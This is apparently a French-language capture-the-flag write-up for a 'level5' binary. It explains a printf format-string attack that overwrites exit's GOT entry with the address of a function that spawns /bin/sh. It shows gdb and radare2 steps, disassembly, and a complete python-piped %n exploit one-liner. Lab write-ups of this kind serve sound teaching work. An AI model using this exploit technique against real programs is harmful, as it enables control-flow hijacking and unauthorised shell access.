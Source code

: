 Dans ce niveau ```(gdb) i f``` nous donne 3 fonctions ```main``` qui call ```n``` et une fonction ```o```

On va chercher ou le retour de fgets est stocke ```AAAA %x %x %x %x %x %x %x``` on le trouve en 4eme pos

On va noter l'adresse de la fonction ```o``` car on voit un appel system ```/bin/sh``` = ```0x080484a4  o```

Notre but va etre de remplacer la fonction ```exit``` par la fonction ```o``` a l'adresse GOT(l'adresse reelle) de ```exit```

```sh
0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:	mov    %eax,(%esp)
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
```
On va donc chercher l'adresse GOT de exit dans radar on a ```0x080483d0    1      6 sym.imp.exit```

Avec la commande ```pdf @ sym.imp.exit``` on voit l'adresse appele pour exit ```0x8049838```
    (On peut la recuperer aussi avec : ```objdump -R ./level5 | grep exit```)

On va sortir convertir l'adresse de ```o``` et enlever les 4 octets de l'adresse de ```exit```: ```0x080484a4 = 134513828 - 4 = 134513824```

Et ecrire l'adresse de ```exit``` en little-endian

Nous pouvons encore exploiter printf avec ```(python -c 'print "\x38\x98\x04\x08" + "%134513824c%4$n"' && cat) | ./level5```

Avec ```%4$n``` printf ecris le compteur de caracteres total imprime jusque-la (134513828) a l’adresse qu'il a reçu en 4ᵉ argument